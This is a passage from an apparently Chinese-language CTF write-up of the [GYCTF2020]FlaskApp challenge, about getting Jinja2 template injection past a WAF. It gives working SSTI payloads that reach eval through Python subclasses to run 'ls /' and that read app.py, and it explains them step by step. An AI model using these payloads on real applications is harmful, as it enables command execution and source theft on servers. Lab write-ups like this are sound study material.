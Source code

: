 ## [GYCTF2020]FlaskApp

[[GYCTF2020\]FlaskApp_eyugzm9yigmgaw4gw10ux19jbgfzc19fll9fymfzzv9fll9fc3-CSDN博客](https://blog.csdn.net/rfrder/article/details/110240245)

[记一次Flask模板注入学习 [GYCTF2020\]FlaskApp - seven昔年 - 博客园 (cnblogs.com)](https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html)

[[GYCTF2020\]FlaskApp-CSDN博客](https://blog.csdn.net/RABCDXB/article/details/117773638?ops_request_misc=%7B%22request%5Fid%22%3A%22170834842416800186585880%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170834842416800186585880&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-117773638-null-null.142^v99^pc_search_result_base3&utm_term=[GYCTF2020]FlaskApp 1&spm=1018.2226.3001.4187)



题目包含加密和解密两个过程：

![image-20240219225328344](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219225328344.png)

###### SSTI模板注入过waf

尝试{{7*7}}回显：**no no no !!** 被 waf 了	

![image-20240219225442022](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219225442022.png)

但是{{7+7}}没有被 waf

![image-20240219230900937](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219230900937.png)

查看根目录被waf了	：

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

1. `{% for c in [].__class__.__base__.__subclasses__() %}`：这是一个 Jinja2 模板语法，表示在 Python 中，遍历空列表的元类的所有子类。
2. `{% if c.__name__=='catch_warnings' %}`：这个条件语句检查当前遍历到的类是否为 `catch_warnings` 类。
3. `{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}`：如果当前遍历到的类是 `catch_warnings` 类，那么就执行这段代码。它的作用是利用 `catch_warnings` 类的 `__init__` 方法的全局变量中的 `__builtins__`，并从中调用 `eval()` 函数执行恶意代码。在这里，恶意代码是通过 Python 的 `os` 模块执行系统命令 `ls /` 来列出根目录下的文件。

读取源码app.py：

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
```

得到black_list：

![image-20240219235214135](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219235214135.png)

整理得到：
